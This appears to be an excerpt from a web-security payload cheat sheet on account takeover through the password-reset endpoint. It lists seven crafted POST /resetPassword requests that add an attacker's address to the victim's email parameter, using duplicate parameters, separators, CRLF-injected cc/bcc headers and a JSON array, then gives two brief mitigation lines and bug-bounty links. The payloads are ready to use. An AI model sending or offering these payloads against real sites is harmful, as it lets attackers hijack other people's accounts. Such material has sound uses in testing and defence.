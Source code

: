 ```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```

* Add attacker email as second parameter using %20

```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```

* Add attacker email as second parameter using |

```php
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```

* Add attacker email as second parameter using cc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

* Add attacker email as second parameter using bcc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```

* Add attacker email as second parameter using ,

```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```

* Add attacker email as second parameter in json array

```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

* **Mitigation Steps**:
  * Properly parse and validate email parameters server-side.
  * Use prepared statements or parameterized queries to prevent injection attacks.
* **References**:
  * [https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be](https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be)
  * [https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/](https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/)
  * [https://twitter.com/HusseiN98D/status/1254888748216655872](https://twitter.com/HusseiN98D/status/1254888748216655872)
